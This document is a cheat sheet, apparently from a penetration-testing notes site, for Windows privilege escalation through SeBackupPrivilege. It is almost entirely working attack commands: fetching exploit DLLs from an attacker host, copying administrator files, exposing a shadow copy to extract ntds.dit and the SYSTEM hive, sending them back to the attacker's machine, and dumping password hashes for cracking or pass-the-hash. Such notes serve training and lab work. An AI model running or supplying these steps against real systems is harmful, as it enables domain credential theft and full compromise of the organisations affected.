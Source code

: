```yaml
---
title: Windows PrivEsc with SeBackupPrivilege
description: SeBackupPrivilege allows users to retrieve file contents.
tags:
    - Privilege Escalation
    - Windows
refs:
date: 2023-12-06
draft: false
---
```


## Investigation

First check if the current user has SeBackupPrivilege in the privilege information.

```bash
whoami /all
```

If so, we can read arbitrary files on the system include administrator's files, SAML file, SYSTEM registry file, etc.

<br />

## Exploitation (Read Sensitive Files)

### 1. Download & Upload Malicious DLLs

In local machine, download malicious dlls from [here](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

```powershell
# If powershell,
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeUtils.dll -OutFile .\SeBackupPrivilegeUtils.dll
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeCmdLets.dll -OutFile .\SeBackupPrivilegeCmdLets.dll
# If winrm,
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

### 2. Copy & Read Sensitive Files

```powershell
Copy-FileSeBackupPrivilege C:\Users\Administrator\flag.txt C:\Users\Public\flag.txt -Overwrite
```

<br />

## Exploitation (Retrieve Registry Keys)

### 1. Create a Payload and Transfer It

Create **"diskshadow.txt"** in local machine. It referes to [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-diskshadow-a-windows-signed-binary).

```bash
set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% h:
```

Upload this file to remote machine.  

```powershell
# If powershell,
Invoke-WebRequest -Uri http://10.0.0.1:8000/diskshadow.txt -OutFile .\diskshadow.txt
# If winrm,
upload diskshadow.txt
```

### 2. Execute DiskShadow.Exe

Then execute diskshadow.exe.

```powershell
# /s: Specify the script file
diskshadow.exe /s .\diskshadow.txt
```

### 3. Upload Malicious DLL

We can download two dll files from [here](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug).

```powershell
# If powershell,
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeUtils.dll -OutFile .\SeBackupPrivilegeUtils.dll
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeCmdLets.dll -OutFile .\SeBackupPrivilegeCmdLets.dll
# If winrm
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Copy-FileSeBackupPrivilege h:\windows\ntds\ntds.dit c:\tmp\ntds.dit -overwrite

reg save HKLM\SYSTEM c:\tmp\system

download ntds.dit
download system
```

### 4. Dump Password Hashes

Now we have two files (ntds.dit and system) in local machine.  
We can dump password hashes using the files.

```sh
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

After that, crack the hashes or use them for pass-the-hash.
